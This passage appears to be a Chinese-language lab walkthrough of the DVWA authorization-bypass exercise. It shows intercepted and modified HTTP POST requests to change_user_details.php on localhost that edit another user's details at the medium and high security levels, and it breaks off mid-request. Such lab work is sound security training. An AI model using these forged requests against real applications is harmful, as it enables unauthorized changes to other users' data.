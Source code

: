 

```
127.0.0.1/vulnerabilities/authbypass/change_user_details.php
```

提交的时候模拟成功的协议包，加上POST请求的内容

```http
POST /vulnerabilities/authbypass/change_user_details.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=66jqj1f9dob50mv5mipsu50r6b; security=medium
Connection: close

{"id":5,"first_name":"123","surname":"213213123"}
```

可以看到返回了`OK`，回到原页面也可以看到是修改成功的。



### Security High

`get_user_data.php`给ban掉了

显示

```
{"result":"fail","error":"Access denied"}
```



那我们试试直接修改可不可以成功。

```
127.0.0.1/vulnerabilities/authbypass/change_user_details.php
```

抓包修改

```http
POST /vulnerabilities/authbypass/change_user_details.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
```
